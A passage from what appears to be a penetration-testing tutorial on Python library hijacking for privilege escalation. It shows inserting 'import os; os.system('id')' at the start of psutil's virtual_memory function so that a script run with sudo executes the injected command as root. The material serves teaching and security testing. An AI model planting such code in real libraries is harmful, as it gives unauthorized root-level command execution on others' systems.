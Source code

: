 Such permissions are most common in developer environments where many developers work on different scripts and may require higher privileges.

#### Module Contents

Code: python

```python
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

This is the part in the library where we can insert our code. It is recommended to put it right at the beginning of the function. There we can insert everything we consider correct and effective. We can import the module `os` for testing purposes, which allows us to execute system commands. With this, we can insert the command `id` and check during the execution of the script if the inserted code is executed.

#### Module Contents - Hijacking

Code: python

```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Now we can run the script with `sudo` and check if we get the desired result.
